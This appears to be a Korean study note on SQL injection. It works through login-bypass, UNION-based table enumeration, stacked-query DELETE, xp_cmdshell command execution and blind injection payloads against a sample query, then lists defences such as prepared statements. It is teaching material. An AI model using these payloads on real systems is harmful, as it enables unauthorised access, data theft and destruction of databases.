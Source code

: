 # **SQL Injection**

> 이용자의 입력값이 SQL 구문의 일부로 사용될 경우, 해커에 의해 **조작된 SQL 쿼리문이 데이터 베이스에 그대로 전달되어 비정상적 명령을 실행시키는 공격 기법**



## SQL Injection 공격 원리와 유형

SQL Injection은 데이터베이스 명령어인 SQL 쿼리문에 기반하여 공격을 수행한다. 공격에 이용되는 쿼리문은 문법적으로는 지극히 정상적인 SQL 구문이다. 다만 실행되지 말아야 할 쿼리문이 실행되어 공격에 이용되는 것이다.

### 조건

1. 웹 애플리케이션이 DB와 연동하고 있다.
2. 외부 입력값이 DB 쿼리문으로 사용된다.



## 공격 방법

### **1. 일반적인 SQL 인젝션**

#### **1-1. 쿼리 조건 무력화 (Where 구문 우회)**

Where 구문은 SQL에서 조건을 기술하는 구문이다. Where 조건에 기술된 구문이 ‘참(True)’이 되는 범위만 쿼리 결과로 반환한다. **SQL 구문에 주석(Comment)를 의도적으로 삽입**하여 Where 조건을 무력화시킬 수 있다.

예를 들어, 다음과 같이 로그인을 처리하는 동적 쿼리가 있다고 가정하자. 외부 입력값인 UserID 와 Password가 쿼리문의 일부로 사용되고 있다.

```sql
SQL = "Select * From Users"       
	+ " Where UserID = '"+ UserID +"' And Password = '" + Password + "'"
```



다음과 같이 UserID 값에 주석을 삽입하면 주석 이하의 구문은 실행되지 않게 되어 admin 이라는 계정의 패스워드를 몰라도 인증을 통과하게 된다. (admin이라는 ID는 이미 알고 있다고 가정. 그리고  - - 는 MS SQL Server의 주석이다. MySQL의 경우는 #을 사용해야 한다.)

```
[ 외부 입력값 ]
UserID: admin'--
Password: 아무거나
```

```sql
[ 실행되는 쿼리문 ]
Select * From Users Where UserID = 'admin'-- And Password = '아무거나'
```



또한 **항상 참이 되도록 Boolean 식을 구성**하여 Where 조건을 무력화 시킬 수 있다.

다음과 같이 Password 값에 참(true)인 조건이 or 로 연결되도록 삽입하면 or 조건으로 인해 쿼리의 결과가 무조건 참이 되어 없는 계정과 다른 패스워드라 할지라도 (예시의 test 라는 계정은 실제 db에 없는 계정임) 인증을 통과하게 된다.

```
[ 외부 입력값 ]
UserID: test
Password: 1234' or '1'='1
```

```sql
[ 실행되는 쿼리문 ]
Select * From Users Where UserID = 'test' And Password='1234' or '1'='1'
```



**직접 데이터베이스 내용을 조작**할 수도 있다.

다음과 같이**;(콜론)으로 명령어를 연결**하면 한 줄로 된 두 개이상의 명령어를 연속해서 기입할 수 있는데 여기에 **테이블을 삭제하거나 수정하는 조작된 쿼리문을 삽입할 수 있다.**

```
[ 외부 입력값 ]
UserID: admin' ; DELETE From Users--
Password: 아무거나
```

```sql
[ 실행되는 쿼리문 ]
Select * From Users Where UserID = 'admin' ; DELETE From Users -- And Password='아무거나'
```



#### **1-2. 고의적 에러 유발 후 정보 획득**

시스템에서 발생하는 에러 메시지를 이용해 공격하는 방법이다. **GET 방식으로 동작하는 URL 쿼리 스트링을 추가하여 에러를 발생**시킨다. 이에 해당하는 오류가 발생하면, 이를 통해 해당 웹앱의 데이터베이스 구조를 유추할 수 있고 해킹에 활용한다.

SQL 쿼리문에서 **UNION 은 두 테이블의 결과를 합치는 명령어이다.** UNION으로 합쳐지는 두 테이블은 **컬럼 갯수가 일치**해야만 오류가 나지 않는다. 아래와 같이 **컬럼 1개**만 가진 대상 테이블을 가정하여 UNION 구문을 삽입한다.

```
[ 외부 입력값 ]
UserID: test'UNION SELECT 1 --
Password:아무거나
```

```sql
[실행되는쿼리문 ]
Select * From Users Where UserID = 'test' UNION SELECT 1 -- And Password='아무거나'
```

테스트용 Users 테이블은 **4개의 컬럼**으로 구성되어 있다. 따라서 위의 쿼리문이 실행되면 다음과 같은 오류가 발생하여 브라우저에 노출된다.

*"UNION, INTERSECT 또는 EXCEPT 연산자를 사용하여 결합된 모든 쿼리의 대상 목록에는 동일한 개수의 식이 있어야 합니다." (SQL Server 기준)*

컬럼 수를 늘리면서 입력을 반복해서 시도하다 마침 4개의 UNION SELECT를 하는 순간 오류가 발생하지 않음을 알고 이 기능의 원본 쿼리가 반환하는 컬럼의 수가 4개인 것을 알게 된다. (MS SQL Server에서는 UNION 되는 컬럼끼리 데이터 타입이 충돌나면 타입 오류를 발싱시키므로 컬럼 타입을 맞출 필요가 있다.)

```
[ 외부 입력값 ]
UserID:test'UNION SELECT 1,1,1,1 --
Password:아무거나
```

```SQl
[실행되는쿼리문 ]
Select * From Users Where UserID = 'test'UNION SELECT 1,1,1,1 -- And Password='아무거나'
```

이렇게 알아낸 컬럼 수를 기반으로 다음과 같이 시스템 테이블의 정보를 조회해 볼 수 있다.

다음의 쿼리가 실행되도록 SQL 구문을 주입하면 현재 데이터베이스에 존재하는 모든 테이블 목록을 볼 수 있다. (아래 쿼리는 SQL Server 기준.)

```sql
Select * From Users Where UserID = 'test'UNION SELECT name, object, 1,1 FROM sys.tables -- And Password='아무거나'
```

위와 같이 테이블 리스트 조회에 성공했다면, 테이블을 선택해서 그 테이블에 저장된 데이터를 획득할 수 있다.



#### 1-3. 시스템 명령어 실행

MS SQL Server의 경우 시스템 명령을 실행할 수 있는 확장 프로시저를 제공한다. xp_cmdshell 프로시저를 이용한다. 다음과 같이 UserID 값에 **;(콜론)으로 xp_cmdshell 실행 구문을 연결**하고 이후 구문은 주석처리 되도록 하여 윈도우 C 드라이버를 탐색하는 명령을 보낸다. 이 계정에 유효한 권한이 주어져 있다면 어떤 시스템 명령도 내릴 수 있게 된다.

```
[ 외부 입력값 ]
UserID: admin' ; EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'--
Password:아무거나
```

```sql
[ 생성된 쿼리문 ]
Select * From Users Where UserID = 'admin' ;EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'-- And Password='아무거나'
```



### 2. Blind SQL 인젝션

공격하는 대상 웹페이지가 어떠한 오류도 출력하지 않고 쿼리 결과 리스트도 제공하지 않을 때  Blind SQL 인젝션이 사용된다.

Blind SQL 인젝션은 쿼리 결과의 참/거짓으로부터 DB값을 유출해 내는 기법이다. 이 공격을 수행하려면, 먼저 웹 애플리케이션에서 쿼리 결과에 대해 참/거짓을 반환하는 요소를 찾아야 한다. 예를 들어 'ID 찾기'나 '게시판 검색'과 같은 기능에서 참/거짓을 판별하는 요소를 찾을 수 있다.



#### 2-1. Boolean-based Blind 공격

가령 어느 웹사이트가 게시판 검색이라는 기능을 제공할 경우, 게시판 검색 기능을 참/거짓을 반환하는 요소로 사용할 수 있다. 여기에 AND 조건으로 해커가 알고 싶은 쿼리 조건을 삽입해서 그 결과로부터 정보유출이 가능한 것이 Blind SQL 인젝션 공격 기법이며 이중에서도 **AND 조건에 논리식을 대입하여 참/거짓 여부를 알아내는 방식**이다.

```
[ 외부 입력값 ]
제목검색:hello' AND 1=1--(유효한 검색단어와 항상 참이되는 조건 부여)

[결과]
게시판 검색됨  -->참(true)이으로 간주---
```

#### 2-2. Time-based Blind 공격

응답의 결과가 항상 동일하여 응답결과만으로는 참/거짓을 판별할 수 없는 경우 시간을 지연시키는 쿼리를 주입하여 응답 시간의 차이로 참/거짓 여부를 판별할 수 있다.





## **방어 방법**

**1. input 값을 받을 때, 특수문자 여부 검사하기**

로그인 전, 검증 로직을 추가하여 미리 설정한 특수문자들이 들어왔을 때 요청을 막아낸다.

**2. SQL 서버 오류 발생 시, 해당하는 에러 메시지 감추기**

view를 활용하여 원본 데이터베이스 테이블에는 접근 권한을 높인다. 일반 사용자는 view로만 접근하여 에러를 볼 수 없도록 만든다.

**3. preparestatement 사용하기**

preparestatement를 사용하면, 특수문자를 자동으로 escaping 해준다. (statement와는 다르게 쿼리문에서 전달인자 값을 ?로 받는 것) 이를 활용해 서버 측에서 필터링 과정을 통해서 공격을 방어한다.



### 참고 자료

[[웹보안\] SQL Injection](https://m.mkexdev.net/427)

[SQL Injection | 👨🏻‍💻 Tech Interview](https://gyoogle.dev/blog/computer-science/data-base/SQL Injection.html)